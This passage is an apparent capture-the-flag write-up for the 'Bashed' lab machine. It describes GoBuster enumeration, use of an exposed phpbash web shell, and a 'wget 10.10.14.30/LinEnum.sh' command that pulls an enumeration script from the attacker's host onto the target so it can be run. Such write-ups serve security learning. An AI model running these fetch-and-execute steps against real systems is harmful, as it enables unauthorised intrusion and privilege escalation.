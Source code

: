 ### GoBuster

Now, the second step we take while we receive an open port 80 or 443 is to use GoBuster to carry out a detailed search about the subdomains that might be present on this machine as those lead us to our clue in the next step.

![subdomain search by GoBuster](../img/Bashed Writeup/1_wSHQZBrAOgXAXHoFPUHKpA.png)

In the step to find out different subdomains we find a few listed above. We first visit the /uploads subdomain it was a blank white page.

![/dev subdomain](../img/Bashed Writeup/1_6y7VTJc3-CN4_B0dTS8syA.png)

Then we went onto /php subdomain it contained the following data, exposing the sendMail.php file.

Then we went onto the dev/ subdomain and there we came across the phpbash.php script which was a link to a web-based shell that was exposed for us to get into the next level to achieve root access.

### Web-Based Shell

The web-based shell gave us access to a command line to run our commands, this a big step as now we have a command line to work with.

![](../img/Bashed Writeup/1_fTKTUikPVlwgPQTXww9K5w.png)

So, as soon we got this shell, we will run our basic commands to figure out the extent of privileges we currently have.

The first command is “id” to know the details about the user. So we are currently a user named, www-data.

Now to check the privileges we have we will run a [script](https://netsec.ws/?p=309) to figure that out. To do that we need the script to be present on the vulnerable machine, so the first step will be to bring over the script from our machine to this machine.

First of all we download the required script on our machine and then send it over to the folder where we are storing data regarding the bashed machine. Once the script is present on that particular folder then we setup a httpServer so the contents of the folder will be available across the network.

![Linux privilege checker script](../img/Bashed Writeup/1_9i9igCCgeYi3ElNAmdmIcA.png)

Now, that we have setup the httpServer on our machine. We go back to the web-based shell on the vulnerable machine because as soon as the file is uploaded via the httpServer now we can download it on our machine using “curl” or “wget” commands.

Curl command wasn’t present on this machine, so we had to use wget to download the file over to the vulnerable machine.

    var/www/html/dev# wget 10.10.14.30/LinEnum.sh

The permission was denied when the above command was carried out from the given folder, we then to the /dev/shm directory and the above command worked.

Once, we had the LinEnum.sh file we executed it to figure out the privileges and other details regarding the current user.
